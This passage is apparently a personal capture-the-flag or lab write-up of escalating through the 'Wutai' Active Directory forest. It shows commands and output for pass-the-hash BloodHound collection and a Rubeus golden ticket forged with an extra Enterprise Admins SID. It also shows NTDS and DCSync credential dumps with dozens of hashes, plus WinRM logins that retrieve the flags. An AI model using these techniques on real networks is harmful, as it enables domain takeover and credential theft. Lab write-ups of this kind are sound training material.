5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49705/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49723/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49741/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/31%OT=53%CT=%CU=%PV=Y%G=N%TM=69CBD74A%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=106%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=109%GCD=1%ISR=108%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# AD

I will abuse the bi-directional dump to dump everything from AD with the current credentails from domain:

```bash
└─$ bloodhound-ce-python -ns 172.16.23.250 -d wutai.vl -u 'Administrator@it.wutai.vl' --hashes :fe23a3b3cf1ebb0d2c0aaf1f849db444 -c All --zip --dns-tcp
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: wutai.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: s022m110.wutai.vl
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: s022m110.wutai.vl
INFO: Found 14 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: S022M110.wutai.vl
INFO: Done in 00M 06S
INFO: Compressing output into 20260331160943_bloodhound.zip
                                                              
```

So far seems Catherine is a good candidate:  


Now I do wonder if the SID history is not working because the SID filtering?



Now this is the user list:

```bash
╰─ ❯ Get-DomainUser -Select sAMAccountName                        
Jake.White
Shannon.Kelly
Catherine.Hughes
Josephine.Ward
Kayleigh.James
Mandy.Cook
Glen.Patel
Elaine.Edwards
Georgina.Barrett
Grace.Nixon
krbtgt
Guest
Administrator

```

# Second day

Now I went back on enumeration and I executed a domain trust check from IT towards WUTAI(the last realm) and you can see the SID filtering should not be active?

```bash
PS C:\Users\Administrator> Get-ADTrust -Filter *


Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=wutai.vl,CN=System,DC=it,DC=wutai,DC=vl
ForestTransitive        : False
IntraForest             : True
IsTreeParent            : False
IsTreeRoot              : False
Name                    : wutai.vl
ObjectClass             : trustedDomain
ObjectGUID              : dbcb675a-9144-4bd2-9c7b-a8728bfdc3f8
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=it,DC=wutai,DC=vl
Target                  : wutai.vl
TGTDelegation           : False
TrustAttributes         : 32
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False

```

And I can also appure now by hundred percent the SID gfiltering should not be active att all:

```bash
PS C:\Users\Administrator> netdom trust it.wutai.vl /domain:wutai.vl /quarantine
SID filtering is not enabled for this trust. All SIDs presented in an
authentication request from this domain will be honored.

The command completed successfully.

PS C:\Users\Administrator>
```

Now for some damn reasons it worked like a charm doing it directly from Windows:

```bash
PS C:\temp> .\Rubeus.exe golden /rc4:5b65d45e6a11e3dea94039c37c55fcdf /domain:it.wutai.vl /sid:S-1-5-21-313048783-3898072970-1408672677 /sids:S-1-5-21-343460641-669348758-2870068117-519 /user:Administrator /ptt /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : IT.WUTAI.VL (IT)
[*] SID            : S-1-5-21-313048783-3898072970-1408672677
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-343460641-669348758-2870068117-519
[*] ServiceKey     : 5B65D45E6A11E3DEA94039C37C55FCDF
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 5B65D45E6A11E3DEA94039C37C55FCDF
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : it.wutai.vl

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@it.wutai.vl'

[*] AuthTime       : 4/1/2026 1:31:45 AM
[*] StartTime      : 4/1/2026 1:31:45 AM
[*] EndTime        : 4/1/2026 11:31:45 AM
[*] RenewTill      : 4/8/2026 1:31:45 AM

[*] base64(ticket.kirbi):

      doIFhTCCBYGgAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEeaADAgEFoQ0bC0lULldVVEFJLlZMoiAwHqADAgECoRcwFRsGa3JidGd0GwtpdC53dXRhaS52bKOCBD8wggQ7oAMCARehAwIBA6KCBC0EggQpq994ajh27EiSPswepS5/4tn98aCguNv7ProcZzLs2XXBP3CNAyxbeCALpXakVI2EyssxJpVTLTlJM2LXqCeuO3lcI+PpAiq2O6X/oee+YE7E1dOlsvmliODqC3Iom4Vq1TrjiLM71mizbbPssh2OXWXPSStL4PwM45BfKy9yl0lmQgo6p4BKMGZ
zE0DLy6p5Z0eO3IQaMY5CbG+E3HtuFJcyBxW2UjmC8hOUYhpAINsqbwVI3f/LfF84kRKDrXAUu0HPvcK+63r2iaEjkjFkaF8ieciz8TXhDa95rpeDuIf4yiXJ89i5ytBXd+4Z8/9uDWy6+SfIWPw4ZFJfDNK13kVyze9uIeH2K0sAH9w4oMfsGiJr4bC4bkQvc71dKuLREQ9CWmSGnAakQ+wm94HGkK8pBorXx7GGMXPlBBHJURyx3wicjBFqz1GdOdNK4fgtFRfLwA2wgobc9dECuFyuZ/oEI0ec9CYtn7/9OpWF485UDZEd45bHeuTwHE13Ku4CbTPTMt2Ocu/n
xYrwEwkvbKKPU90s/tPUPqr5vLsSe58blIP9a95jHTww+ce47sFcnzJ5QK15HAVZWIv8TGEm2dy6KiF911RHwO46m6w0CmmcgcpqCXbrVesN1cNYha6NI6+af60gQ/ZiHMQ+b5HNQ+ZnJ6/AoSNQCK8BzImEG1MLzNi+i7hOP7I/TqIAZKDZyJB9j+UDrx+yhx0PXnmieCdYlL35DmqS/0H8a9DG7b5L/a4Ss8A8q/v+7LdEeBczxgqYB9Xvra6AxHwyJ6656OSGHwWXFWy/P+Hh20fvDSrW/qtOkmTqTzq1pZYbPsDmh/zdnQguHPfL7F9V7Y5P7rRQNigYG3UDj
PhCf5AefFda0KFOZAkt0ciibOlhw6CK8RaZVSnW/e41Cef1+bSM+c3Fgtrig2N9Dxz9zinbi1KvNcZQR4HxTlvGpgUKaxkh8N83MlHNDwNBgIe+zU+V2pZVTDc7DE9buQLtke7eIe02n63G9mlWujbu7NrnB8swgXzeRsI4HuXQygnyjNVZGM+maWyiHemVu3oiWMjtP5SWobHTPw1+IZxfj5skvVd7RoBbwcrnOBCz7GPZkSAHOQOdeNyaAYvgwemwhqB0uubIuMex+Gg0QGaV86vpelidQzU7aelBBfyOXvaoXKl0iWgQTFJKhhnttGLA9n+wR3nQW3u7lou1ZT
vZ57edF8Zz+1VJfGa0xdoO+rWhLEbNeBePqgDb+mMgb00LQ8nS1UOSsHHME6S6C/2c4qmEeIVKbYx+HMoazph51LQlWHTypWg6nqeaK8uvCvO56i7eBcqV+eeNxYfE2OtHGFTk0l82y68UH5RG55FeQaewjiCBnOZdSDzCgJUYt+x3VU+amuYfEgCzhRlBFKkxV07p4N77JOLsW/Tp+SnEo4HrMIHooAMCAQCigeAEgd19gdowgdeggdQwgdEwgc6gGzAZoAMCARehEgQQEpeSal4W0iYk+SmfhLbW/KENGwtJVC5XVVRBSS5WTKIaMBigAwIBAaERMA8bDUFkbWl
uaXN0cmF0b3KjBwMFAEDgAACkERgPMjAyNjA0MDEwODMxNDVapREYDzIwMjYwNDAxMDgzMTQ1WqYRGA8yMDI2MDQwMTE4MzE0NVqnERgPMjAyNjA0MDgwODMxNDVaqA0bC0lULldVVEFJLlZMqSAwHqADAgECoRcwFRsGa3JidGd0GwtpdC53dXRhaS52bA==


[+] Ticket successfully imported!

PS C:\temp> klist

Current LogonId is 0:0x611dc6

Cached Tickets: (1)

#0>	Client: Administrator @ IT.WUTAI.VL
    Server: krbtgt/it.wutai.vl @ IT.WUTAI.VL
    KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
    Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
    Start Time: 4/1/2026 1:31:45 (local)
    End Time:   4/1/2026 11:31:45 (local)
    Renew Time: 4/8/2026 1:31:45 (local)
    Session Key Type: RSADSI RC4-HMAC(NT)
    Cache Flags: 0x1 -> PRIMARY 
    Kdc Called: 

PS C:\temp> ls \\S022M110.wutai.vl\C$


    Directory: \\S022M110.wutai.vl\C$


Mode                 LastWriteTime         Length Name                                                                                                                                                                                                                                                                                              
----                 -------------         ------ ----                                                                                                                                                                                                                                                                                              
d-----          4/8/2023  12:47 AM                inetpub                                                                                                                                                                                                                                                                                           
d-----          5/8/2021   1:20 AM                PerfLogs                                                                                                                                                                                                                                                                                          
d-r---          5/1/2025   6:25 PM                Program Files                                                                                                                                                                                                                                                                                     
d-----          4/1/2023   3:09 AM                Program Files (x86)                                                                                                                                                                                                                                                                               
d-r---         3/27/2023   8:16 PM                Users                                                                                                                                                                                                                                                                                             
d-----        10/20/2025   6:10 AM                Windows     
```

Now I can either import locally and covert on my machine:

```
doIFhTCCBYGgAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEeaADAgEFoQ0bC0lULldVVEFJLlZMoiAwHqADAgECoRcwFRsGa3JidGd0GwtpdC53dXRhaS52bKOCBD8wggQ7oAMCARehAwIBA6KCBC0EggQpq994ajh27EiSPswepS5/4tn98aCguNv7ProcZzLs2XXBP3CNAyxbeCALpXakVI2EyssxJpVTLTlJM2LXqCeuO3lcI+PpAiq2O6X/oee+YE7E1dOlsvmliODqC3Iom4Vq1TrjiLM71mizbbPssh2OXWXPSStL4PwM45BfKy9yl0lmQgo6p4BKMGZ
zE0DLy6p5Z0eO3IQaMY5CbG+E3HtuFJcyBxW2UjmC8hOUYhpAINsqbwVI3f/LfF84kRKDrXAUu0HPvcK+63r2iaEjkjFkaF8ieciz8TXhDa95rpeDuIf4yiXJ89i5ytBXd+4Z8/9uDWy6+SfIWPw4ZFJfDNK13kVyze9uIeH2K0sAH9w4oMfsGiJr4bC4bkQvc71dKuLREQ9CWmSGnAakQ+wm94HGkK8pBorXx7GGMXPlBBHJURyx3wicjBFqz1GdOdNK4fgtFRfLwA2wgobc9dECuFyuZ/oEI0ec9CYtn7/9OpWF485UDZEd45bHeuTwHE13Ku4CbTPTMt2Ocu/n
xYrwEwkvbKKPU90s/tPUPqr5vLsSe58blIP9a95jHTww+ce47sFcnzJ5QK15HAVZWIv8TGEm2dy6KiF911RHwO46m6w0CmmcgcpqCXbrVesN1cNYha6NI6+af60gQ/ZiHMQ+b5HNQ+ZnJ6/AoSNQCK8BzImEG1MLzNi+i7hOP7I/TqIAZKDZyJB9j+UDrx+yhx0PXnmieCdYlL35DmqS/0H8a9DG7b5L/a4Ss8A8q/v+7LdEeBczxgqYB9Xvra6AxHwyJ6656OSGHwWXFWy/P+Hh20fvDSrW/qtOkmTqTzq1pZYbPsDmh/zdnQguHPfL7F9V7Y5P7rRQNigYG3UDj
PhCf5AefFda0KFOZAkt0ciibOlhw6CK8RaZVSnW/e41Cef1+bSM+c3Fgtrig2N9Dxz9zinbi1KvNcZQR4HxTlvGpgUKaxkh8N83MlHNDwNBgIe+zU+V2pZVTDc7DE9buQLtke7eIe02n63G9mlWujbu7NrnB8swgXzeRsI4HuXQygnyjNVZGM+maWyiHemVu3oiWMjtP5SWobHTPw1+IZxfj5skvVd7RoBbwcrnOBCz7GPZkSAHOQOdeNyaAYvgwemwhqB0uubIuMex+Gg0QGaV86vpelidQzU7aelBBfyOXvaoXKl0iWgQTFJKhhnttGLA9n+wR3nQW3u7lou1ZT
vZ57edF8Zz+1VJfGa0xdoO+rWhLEbNeBePqgDb+mMgb00LQ8nS1UOSsHHME6S6C/2c4qmEeIVKbYx+HMoazph51LQlWHTypWg6nqeaK8uvCvO56i7eBcqV+eeNxYfE2OtHGFTk0l82y68UH5RG55FeQaewjiCBnOZdSDzCgJUYt+x3VU+amuYfEgCzhRlBFKkxV07p4N77JOLsW/Tp+SnEo4HrMIHooAMCAQCigeAEgd19gdowgdeggdQwgdEwgc6gGzAZoAMCARehEgQQEpeSal4W0iYk+SmfhLbW/KENGwtJVC5XVVRBSS5WTKIaMBigAwIBAaERMA8bDUFkbWl
uaXN0cmF0b3KjBwMFAEDgAACkERgPMjAyNjA0MDEwODMxNDVapREYDzIwMjYwNDAxMDgzMTQ1WqYRGA8yMDI2MDQwMTE4MzE0NVqnERgPMjAyNjA0MDgwODMxNDVaqA0bC0lULldVVEFJLlZMqSAwHqADAgECoRcwFRsGa3JidGd0GwtpdC53dXRhaS52bA==
```

And grab the keys of the domain:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.23.250 --use-kcache --ntds                                          
SMB         172.16.23.250   445    S022M110         [*] Windows Server 2022 Build 20348 x64 (name:S022M110) (domain:wutai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.23.250   445    S022M110         [+] IT.WUTAI.VL\Administrator from ccache (Pwn3d!)
SMB         172.16.23.250   445    S022M110         [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.23.250   445    S022M110         Administrator:500:aad3b435b51404eeaad3b435b51404ee:4d6c3114ad3e8be656f0af71952947ec:::
SMB         172.16.23.250   445    S022M110         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.23.250   445    S022M110         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4f7f96d8d6425007af4dfb3305c0fb33:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Grace.Nixon:1105:aad3b435b51404eeaad3b435b51404ee:9b261cfed867ccd0031647c41b2a6654:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Georgina.Barrett:1106:aad3b435b51404eeaad3b435b51404ee:1669d9c64dc2776f46cf48afecca9da6:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Elaine.Edwards:1107:aad3b435b51404eeaad3b435b51404ee:33b44d02905df64a85b4812d38175736:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Glen.Patel:1108:aad3b435b51404eeaad3b435b51404ee:7f8b62b071764d0a3ad3e6a3eecb7f33:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Mandy.Cook:1109:aad3b435b51404eeaad3b435b51404ee:a59491a0186b2b978d99cecf275dbd5c:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Kayleigh.James:1110:aad3b435b51404eeaad3b435b51404ee:951aa09a7763719dcf6582d571a38d05:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Josephine.Ward:1111:aad3b435b51404eeaad3b435b51404ee:7c294c995ec708d35e431e21647bfebd:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Catherine.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:708cabeadcc77f57984d379a10475f31:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Shannon.Kelly:1113:aad3b435b51404eeaad3b435b51404ee:aa771c0562f2a0b965b9493c7aa84def:::
SMB         172.16.23.250   445    S022M110         wutai.vl\Jake.White:1114:aad3b435b51404eeaad3b435b51404ee:dd286c66f4beae1393b9f25321f8081c:::
SMB         172.16.23.250   445    S022M110         S022M110$:1000:aad3b435b51404eeaad3b435b51404ee:5cb83ebc797dcc4367f93252c33225fa:::
SMB         172.16.23.250   445    S022M110         IT$:1103:aad3b435b51404eeaad3b435b51404ee:b8ae7de92ba9eea2329abb34f323c7b1:::
SMB         172.16.23.250   445    S022M110         [+] Dumped 15 NTDS hashes to /home/user/.nxc/logs/ntds/172.16.23.250_None_2026-04-01_103554.ntds of which 13 were added to the database
SMB         172.16.23.250   445    S022M110         [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.23.250   445    S022M110         [*] cat /home/user/.nxc/logs/ntds/172.16.23.250_None_2026-04-01_103554.ntds | grep -iv disabled | cut -d ':' -f1
SMB         172.16.23.250   445    S022M110         [*] grep -iv disabled /home/user/.nxc/logs/ntds/172.16.23.250_None_2026-04-01_103554.ntds | cut -d ':' -f1
        
```

Alternatively the same can be done directly from that damn Windows shell:

```bash
PS C:\temp> ./mimikatz.exe "privilege::debug" "lsadump::dcsync /dc:S022M110.wutai.vl /domain:wutai.vl /all /csv" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::dcsync /dc:S022M110.wutai.vl /domain:wutai.vl /all /csv
[DC] 'wutai.vl' will be the domain
[DC] 'S022M110.wutai.vl' will be the DC server
[DC] Exporting domain 'wutai.vl'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502	krbtgt	4f7f96d8d6425007af4dfb3305c0fb33	514
1105	Grace.Nixon	9b261cfed867ccd0031647c41b2a6654	66080
1106	Georgina.Barrett	1669d9c64dc2776f46cf48afecca9da6	66080
1107	Elaine.Edwards	33b44d02905df64a85b4812d38175736	66080
1108	Glen.Patel	7f8b62b071764d0a3ad3e6a3eecb7f33	66080
1109	Mandy.Cook	a59491a0186b2b978d99cecf275dbd5c	66080
1110	Kayleigh.James	951aa09a7763719dcf6582d571a38d05	66080
1111	Josephine.Ward	7c294c995ec708d35e431e21647bfebd	66080
1113	Shannon.Kelly	aa771c0562f2a0b965b9493c7aa84def	66080
1114	Jake.White	dd286c66f4beae1393b9f25321f8081c	66080
1112	Catherine.Hughes	708cabeadcc77f57984d379a10475f31	66080
500	Administrator	4d6c3114ad3e8be656f0af71952947ec	66048
1000	S022M110$	5cb83ebc797dcc4367f93252c33225fa	532480
1103	IT$	b8ae7de92ba9eea2329abb34f323c7b1	2080

mimikatz(commandline) # exit
Bye!

PS C:\temp> 
```

And grab the last flag on this machine:

```bash
evil-winrm-py PS C:\users\Administrator> cd Desktop
evil-winrm-py PS C:\users\Administrator\Desktop> cat root.txt
WUTAI{b3ac6083c06156060ac58cff894d2207}
evil-winrm-py PS C:\users\Administrator\Desktop>

```

&nbsp;

# The last piece

Now for some reasons I am missing one flag, WTH?


Apparently an user told me to check on the .180 machine(it is the GW machine on the VDI) and loggin in as the local administrator show that there is a Ubuntu WSL?



And appaently i can mount it kinda but not root(where I suspect the flag is at):  


And here I asked the AI where to get the image and I can see the disk:

```bash
S C:\Users\Administrator> wsl.exe --list
Windows Subsystem for Linux Distributions:
Ubuntu (Default)
PS C:\Users\Administrator> $WslGuid = Get-ChildItem "HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss" |
>>     ForEach-Object { Get-ItemProperty $_.PSPath } |
>>     Where-Object { $_.DistributionName -eq "Ubuntu" } |
>>     Select-Object -ExpandProperty BasePath
PS C:\Users\Administrator> Get-History

  Id CommandLine
  -- -----------
   1 wsl.exe --list
   2 $WslGuid = Get-ChildItem "HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss" | ...


PS C:\Users\Administrator> ii $WslGuid
PS C:\Users\Administrator>

```

I wasn't able to mount the root ubuntu(wasn't able to surf the root folder) but I installed 7zip and now I can:



And that's the end of the game:

```bash
└─$ evil-winrm-py -i 172.16.21.180 -u 'dom-fstewart' -p 'HO4_+eWWPd66K9'                           
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '172.16.21.180:5985' as 'dom-fstewart'
evil-winrm-py PS C:\Users\dom-fstewart\Documents> cd ..
cevil-winrm-py PS C:\Users\dom-fstewart> cd ..
evil-winrm-py PS C:\Users> cd ..
evil-winrm-py PS C:\> cd temp
evil-winrm-py PS C:\temp> upload 7z2600-x64.exe
[-] Usage: upload <local_path> <remote_path>
evil-winrm-py PS C:\temp> upload 7z2600-x64.exe .
Uploading /home/user/Downloads/7z2600-x64.exe: 1.62MB [00:02, 647kB/s]                                                                                         
[+] File uploaded successfully as: C:\temp\7z2600-x64.exe
evil-winrm-py PS C:\temp> cat flag.txt
WUTAI{f3c067603412ea7ec676fc8100bbd2b1}
evil-winrm-py PS C:\temp>

```

&nbsp;